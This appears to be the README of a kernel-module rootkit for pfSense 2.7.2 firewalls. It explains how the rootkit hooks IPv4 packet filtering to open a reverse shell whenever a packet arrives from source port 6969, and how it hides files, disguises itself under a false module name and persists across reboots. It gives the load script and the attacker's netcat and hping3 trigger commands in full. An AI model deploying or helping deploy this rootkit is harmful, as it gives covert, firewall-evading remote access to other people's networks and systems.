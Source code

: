 First off, I would like to give a massive thank you to my friend Sharad(mineo333) for helping 
create the functionality of forking a process and running kern_execve() in the child.  This is the
core of the entire rootkit and what allows for code execution upon the condition of a packet
with a certain source port being seen.  I could not have done this without his help.

Secondly, the functionality that hides file is completely 1 for 1 ripped from BlueDragonSecurity's(bluedragonsecurity) repo bds_freebsd.  Big thanks for making this. 

An important note, the current .ko files are only usable for pfSense 2.7.2 CE.
You to compile these yourself, you must do it within a pfSense box, NOT a compatable freeBSD kernel.
To be able to compile within pfSense you must follow the steps outlined in "extra/how_to_setup_pfsense_to_compile.txt".

The "extra" directory holds the C code and Makefile to create an LKM that will eternally just print's a face, normal input will still work on the terminal it jsut scrolls really fast, you can also just unload it to make it stop. To load it you must run
kldload /boot/modules/.evil/evil.ko

ldpreload/LD_PRELOAD is a false name used for the rootkit since this LKM does not exist within pfSense but appears normal.

This LKM/Rootkit has persistance, from apeshit.sh, which is loaded via load_and_setup.sh.

To load the Rootkit you must clone this directroy, cd into it, chmod +x load_and_setup.sh, and run ./load_and_setup.sh.
You will be popped out into a ghost /Apekit-tooshit directory so run cd / after the script is done.

What does it do?
This Rootkit registers a custom hook to the top of the IPv4 head within pfSense and establishes reverse shells by forking the process that runs cat and running the reverse shell command in that fork with execve.
This is super duper mega awesome because even if firewall rules are made against the attacker IP, ports, anything.  The registered hook will still receive the packet and make a reverse shell.
We use socat to make the reverse shell since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.

To get a reverse shell!

Run "nc -lvnp 7000" on the attaking machine in a terminal.
In another terminal, send packets that will pop open a reverse shell with the command
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>", 80 is a good choice for dest port
Once you see the reverse shell connect, run control + c in the terminal that is sending the packets (you do not need to keep sending more traffic).
If the reverse shell doesn't connect after about 5 packets then run control + c in the terminal that is sending packets and re-run the command, packet filtering is finickey and sometimes you need to try a couple times.

